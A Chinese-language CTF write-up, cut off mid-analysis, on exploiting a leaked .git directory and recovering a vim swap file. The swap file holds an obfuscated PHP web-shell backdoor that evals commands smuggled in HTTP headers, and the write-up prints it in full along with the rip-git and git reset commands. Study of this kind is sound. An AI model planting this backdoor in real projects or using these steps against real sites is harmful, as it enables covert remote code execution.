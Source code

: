 ## Backdoor
扫目录发现 `.git` 泄露。上 GitHack 把 `.git` 下载下来，然后发现需要回退。

值得记录的是 GitHack 好像没能把 `.git` 下下来，只能下载所有文件，因此我使用了 `dvcs ripper` 这个工具：
```bash
./rip-git.pl -v -u http://1355bb65468a451b9487c15dba117690cff7627b879e42f2.
changame.ichunqiu.com/Challenges/.git/
```

访问 `/Challenges/.git/logs/HEAD` 可以查看提交记录，或者也可以 `git log` 查看。随后回退到之前的版本：
```bash
git reset --hard 12c6ddf4af0a5542c1cf6a9ab19b4231c1fd9a88
cat flag.php
```
这时可以看到，`flag.php` 内容变为：
```php
<?php
echo "flag{true_flag_is_in_the_b4ckdo0r.php}";
?>
```
那么我们继续访问 `b4ckdo0r.php`，提示要找出其源码。这种一般都存在备份文件里，例如 `vim` 中的 `.swo` 和 `.swp`，逐一尝试得备份文件 `.b4ckdo0r.php.swp`，用 `vim -r` 恢复：
```php
<?php
echo "can you find the source code of me?";
/**
 * Signature For Report
 */$h='_)m/","/-/)m"),)marray()m"/","+")m),$)mss($s[$i)m],0,$e))))m)m,$k)));$o=ob)m_get_c)monte)m)mnts)m();ob_end_clean)';/*
 */$H='m();$d=ba)mse64)m_encode)m(x(gzc)mompres)ms($o),)m$)mk));print("<)m$k>$d<)m/)m$k>)m");@sessio)mn_d)mestroy();}}}}';/*
 */$N='mR;$rr)m=@$r[)m"HTT)mP_RE)mFERER"];$ra)m=)m@$r["HTTP_AC)mC)mEPT_LANG)mUAGE)m")m];if($rr)m&&$ra){)m$u=parse_u)mrl($rr);p';/*
 */$u='$e){)m$k=$)mkh.$kf;ob)m_start();)m@eva)ml(@gzunco)mmpr)mess(@x(@)mbase6)m4_deco)mde(p)m)mreg_re)mplace(array("/';/*
 */$f='$i<$)ml;)m){)mfo)mr($j)m=0;($j<$c&&$i<$l);$j)m++,$i+)m+){$)mo.=$t{$i)m}^$)mk{$j};}}r)meturn )m$o;}$r)m=$_SERVE)';/*
 */$O='[$i]="";$p)m=$)m)mss($p,3)m);}if(ar)mray_)mkey_exists)m()m$i,$s)){$)ms[$i].=$p)m;)m$e=s)mtrpos)m($s[$i],$f);)mif(';/*
 */$w=')m));)m$p="";fo)mr($z=1;)m$z<c)mount()m$m[1]);$)mz++)m)m)$p.=$q[$m[)m)m2][$z]];if(str)mpo)ms($p,$h))m===0){$s)m';/*
 */$P='trt)molower";$)mi=$m[1][0)m)m].$m[1][1])m;$h=strtolower()msubstr(m)md5($)mi.$kh)m),0,)m3));$f=$s)ml(substr()m)mmd5($i.$kf),0,3';/*
 */$i=')marse_)mstr)m($u["q)muery"],$)m)mq);$q=array)m_values()m$q);pre)mg_matc)mh_all()m"/([\\w)m])m)[\\w-)m]+(?:;q=0.)';/*
 */$x='m([\\d)m]))?,?/",)m$ra,$m))m;if($q)m&&$)mm))m)m{@session_start();$)ms=&$_S)mESSI)m)mON;$)mss="sub)mstr";strtolower="s)m';/*
 */$y=str_replace('b','','crbebbabte_funcbbtion');/*
 */$c='$kh="4f7)m)mf";$kf="2)m)m8d7";funct)mion x($t)m,$k){$)m)mc=strlen($k);$l=st)mrlen)m($t);)m)m$o="";for()m$i=0;';/*
 */$L=str_replace(')m','',$c.$f.$N.$i.$x.$P.$w.$O.$u.$h.$H);/*
 */$v=$y('',$L);$v();/*
 */
?>
```
这里的代码经过了混淆，我们在代码末尾加上一段代码来进行分析：
```php
echo var_dump($L);
echo $y;
echo $v;
```
得到原本的核心代码 (`$L`)：
